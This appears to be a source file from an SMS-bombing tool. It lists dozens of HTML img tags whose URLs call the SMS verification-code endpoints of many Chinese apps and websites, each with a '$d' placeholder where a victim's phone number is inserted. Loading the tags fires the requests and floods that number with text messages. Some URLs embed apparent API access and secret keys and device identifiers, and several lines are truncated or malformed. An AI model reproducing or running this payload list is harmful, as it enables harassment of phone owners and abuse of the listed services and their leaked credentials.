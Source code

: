<img src='https://reg.suning.com/srs-web/ajax/code/sms.do?scen=PERSON_MOBILE_REG_VERIFY_MOBILE&uid&code&dfpToken=THrLck1681e2c9a89rGPm639e&detect=mmds_uDjz1jfWoxDDcojxxwoDwgWozujMf1xjggnjkZJwujuDMonJNNojJfZogzMxoxMnW1NDJZjwukndT5UBJ5qL55XxZeNvx5fxAC4055SwwTkl555-xjC-555KxOC.  
<img src='https://route.yuantutech.com/user-web/restapi/common/ytUsers/getValidateCode?phoneNum=$d' alt=''/>&ver=1.0&unionId=2&invokerChannel=App&invokerAppVersion=3.27.4&invokerDeviceVersion=12.4&invokerDeviceId=109EA54A-A27B-49FE-8B7C-A2E309F897BC&invokerDeviceType=iPhone 6s
<img src='https://s-web.jtljia.com/mvc/message/vcode/user_welcome/$d' alt=''/>
<img src='https://secure.changba.com/ktvboxs.php?ac=phonestartentry&curuserid=0&channelsrc=appstore&version=9.1.1&token=&bless=0&macaddress=5C351103-F887-4932-BC59-58C75875EFDE&ismember=0&openudid=78363e2e9ba7642df7b2f474a64b66b7cf7cdfbc&systemversion=12.4&device=iPhone8,1&b
<img src='http://server.daiyudianjing.com/User/GetShortMessage?phone=$d' alt=''/>&type=0&Timestamp=1562547880955&Nonstr=4A4EC434EC1697BAB69253B3293FF032
<img src='https://shared.ivydad.com/api/mobile/member/sendSmsCode?callback=jQuery111009421744498287961_1580993309090&appid=wx0e2dec5e762806fd&version=2.8.1&app_name=ivydad&channel=App Store&sys_version=12.4.1&type=register&sys_type=ios&token=&member_uuid=0&device_name=iPho  
<img src='http://skyapp.mackentan.com/app/v5/login/verifyuser.do?t=1565488775000&did=EVrRL0SJdF8b4aa87b41&ver=170&it=434857&username=$d' alt=''/>&fit=434857&sign=df42d291c6c8487aab384f3da2f5a42f6920e76b&appid=com.jediapp.changgejiaoxue&idfa=5C351103-F887-4932-BC59-58C75875EFDE
<img src='http://sms.bechtech.cn/Api/send/data/json?accesskey=1730&secretkey=3f198068c6b5c1036f9b38ae0690cc244695a247&mobile=$d' alt=''/>&content=您的手机验证码为：3973+，该验证码10%
<img src='https://soufunapp.3g.fang.com/
<img src='http/sfservice.jsp?messagename=appSendMobileCode&mobilephone=$d' alt=''/>&operatetype=0&sendvoice=0&wirelesscode=2C56469F49A8526BC922ECFA14C22AC7
<img src='http://sqb.xiaoshijie.com/api/1/user/getCaptcha/?_did=00000000-7998-6e7e-026a-0aa25c86693a&_app=sqbao&_atype=android&_network=2&_networkType=0&_t=1556866758&_swidth=1080&_sheight=1920&_imei=861913032338784&_manufacture=ZTE&_model=ZTE+BV0730&_osver=6.0&_tn=0&_st=0&i
<img src='https://suyun-guest.daojia.com/api/guest/antcheat?aLiDeviceToken=&app_idfa_real=5C351103-F887-4932-BC59-58C75875EFDE&app_source=2&app_uuid=BC445415-3280-46CD-8EF2-87936A0D762F&channel-id=Appstore&cityid=37&common_lat=29.5870231&common_lng=106.2847588&imei=F3F6BCC9-
<img src='http://uac.10010.com/oauth2/OpSms?callback=jsonp1544753247279&req_time=1544753262715&user_id=&app_code=ECS-YH-WAP
<img src='https://uas.xingshulin.com/passport/default/captcha/LOGIN/sms/$d' alt=''/>?
<img src='https://ubas.360jie.com.cn/ubas/event/report?flowNo=49181563973602947&bizCode=REGISTER_LOGIN&eventCode=SEND_SMSCODE&pageName=login.html&ABTest=A&TuanABTest=A&userOprTime=1563973631831&hostApp=APP&sourceType=APK&channelSource=CH_001_IOS&subChannel=&activityInfo=&utm
<img src='https://ucenter.1haitao.com/vc/mobile/SMSCode.htm?codeType=login&mobile=$d' alt=''/>&sign=ea7f6860aa40d220409b892397890184
<img src='http://user.app.nanrenbang.in/user/user/getvalidate?phone=$d' alt=''/>
<img src='http://user.daojia.com/user/getSmscode?mobile=$d' alt=''/>&bu=
<img src='http://user.yuntuds.net/register_get_valid_number?sign=a316b3d460901f104f9e8e84662640c0&phone_number=$d' alt=''/>&nwtime=1548162361&_u=acde09261c08497067779e1fd4ee4a6e&version=4.5.1&platform=android&appx=yuntu&apppn=org.fungo.fungolive&channel=tencent&market=32&os_versi
<img src='http://v.juhe.cn/sms/send?mobile=$d' alt=''/>&tpl_id=11115&tpl_value=#code#=321809&key=a68cead9b27523c56ce7fd7fc1312ea4
<img src='http://vapi.yuike.com/1.0/user/is_register.php?phone=$d' alt=''/>&sign=69f0ce3725947d7f9d6b798e68700f3a&yk_pid=3&yk_appid=1&yk_cc=yuikemall&yk_cvc=319&mid=457465
<img src='http://voip-newapi20160601.voip-oem.com/api/Account/GetValidateCodeNoUser?SrcPhone=$d' alt=''/>&type=1&proxyId=5318302
<img src='http://weizhang.58.com/user/login/getcode?mobile=$d' alt=''/>
<img src='http://www.51qub.com/member/sendmobilesms?mobile=$d' alt=''/>
<img src='http://www.6dspeaker.com/sdspeaker/public?method=getPhoneCode&phone=$d' alt=''/>&countryCode=+86&validateType=1
<img src='http://www.ahtba.org.cn/Registration/SendSms?phone=$d' alt=''/>&_=1570683350704
<img src='http://www.aipai.com/app/www/apps/ums.php?step=ums&mobile=$d' alt=''/>
<img src='http://www.dangaoss.com/h5/acc/send_code?_t=1552475308&sign=424064b2d2d003d83db05380438824cb&username=$d' alt=''/>
<img src='http://www.easgs.cn/app/index.php?i=8&c=entry&do=sms&m=junsion_winaward_plugin_wap&mobile=$d' alt=''/>
<img src='http://www.feixun.tv/v4/user/sendUserPhoneLogin.json?platform=and&appName=general_video&sid=867251035115402&partner=0005&appVersion=6.3.5&brand=Xiaomi&model=Redmi&isWifi=true&osVersion=23&lhNum=1&phone=$d' alt=''/>
<img src='http://www.fvv678.cn/app/user/checkMobileReg?mobile=$d' alt=''/>&token=0&timestamp=1558355544&sign=c906bc234a2b4ac71ed23cae0147092b
<img src='http://www.gmsweipai.com/gms/api/common/$d' alt=''/>/requestsms/5?mchCode=861913032338784
<img src='http://www.guaguale.men/api.php?act=user&key=rt1BThTaqQjjqbx1RD&phone=$d' alt=''/>
<img src='http://www.henhuoapp.com/api/method/getCode?phone=$d' alt=''/>&type=1
<img src='http://www.huizhuang.com/m/login/getmobilecode?cate=login&mobile=$d' alt=''/>&_=1551173567935
<img src='http://www.huobiao.cn/core/login/get_code_snv?jsonpcallback=jQuery22408161556854897054_1570699976143&phone=$d' alt=''/>&_=1570699976144
<img src='http://www.hyb100.com/huoyb/vc10001.action?userid=$d' alt=''/>&ic10000
<img src='http://www.id68.cn/member/common/ckuser/m=mobile&a=isMobile&format=ajax&mobile=$d' alt=''/>
<img src='http://www.imdxd.com/api/method/getCode?phone=$d' alt=''/>&type=2
